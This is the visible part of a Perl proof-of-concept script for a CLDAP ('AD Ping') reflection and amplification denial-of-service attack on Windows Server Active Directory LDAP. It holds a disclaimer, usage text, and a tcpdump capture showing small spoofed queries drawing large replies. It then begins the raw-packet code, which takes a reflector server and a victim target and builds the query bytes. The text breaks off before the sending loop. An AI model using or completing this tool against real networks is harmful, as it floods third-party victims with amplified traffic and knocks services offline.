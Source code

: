 ```perl
#  the fact that Todor Donev is not liable for any damages caused by
#  direct or indirect use of the information or functionality provided
#  by these programs. The author or any Internet provider bears NO
#  responsibility for content or misuse of these programs or any
#  derivatives thereof. By using these programs you accept the fact
#  that any damage (dataloss, system crash, system compromise, etc.)
#  caused by the use of these programs is not Todor Donev's
#  responsibility.
#
#  Use at your own risk and educational
#  purpose ONLY!
#
#  See also, UDP-based Amplification Attacks:
#  https://www.us-cert.gov/ncas/alerts/TA14-017A
#
#
#  # perl cldapdrdos.pl 192.168.1.112 192.168.1.146
#  [ MS Windows Server 2008/2008 R2/ 2012/2012 R2/ AD LDAP RootDSE Netlogon (CLDAP "AD Ping") query reflection DoS PoC
#  [ ======
#  [ Usg: cldapdrdos.pl <ldap server> <target> <port>
#  [ Default port: 389
#  [ Example: perl cldapdrdos.pl 192.168.30.56 192.168.1.1
#  [ ======
#  [ <todor.donev@gmail.com> Todor Donev
#  [ Facebook: https://www.facebook.com/ethicalhackerorg
#  [ Website: https://www.ethical-hacker.org/
#  [ Sending CLDAP "AD Ping" packets..
#  ^C
#  # tcpdump -i eth0 -c4 port 389
#  tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
#  listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
#  00:00:58.638466 IP attacker.31337 > target.ldap: UDP, length 57
#  00:00:58.639360 IP target.ldap > attacker.31337: UDP, length 2315        ## LOOOL...
#  00:00:59.039293 IP attacker.31337 > target.ldap: UDP, length 57
#  00:00:59.041043 IP target.ldap > attacker.31337: UDP, length 2315        ## LOOOL...
#  4 packets captured
#  6 packets received by filter
#  0 packets dropped by kernel
#
#
#

use Net::RawIP;

print "[ MS Windows Server 2008/2008 R2/ 2012/2012 R2/ AD LDAP RootDSE Netlogon (CLDAP \"AD Ping\") query reflection DoS PoC\n";
print "[ ======\n";
print "[ Usg: $0 <ldap server> <target> <port>\n";
print "[ Default port: 389\n";
print "[ Example: perl $0 192.168.30.56 192.168.1.1\n";
print "[ ======\n";
print "[ <todor.donev\@gmail.com> Todor Donev\n";
print "[ Facebook: https://www.facebook.com/ethicalhackerorg\n";
print "[ Website: https://www.ethical-hacker.org/\n";

my $cldap       = $ARGV[0];
my $target      = $ARGV[1];
my $port        = $ARGV[2] || '389';

die "[ Error: Port must be between 1 and 65535!\n"       if ($port < 1 || $port > 65535);

my $query  = "\x30\x25\x02\x01\x01\x63\x20\x04\x00\x0a";
```
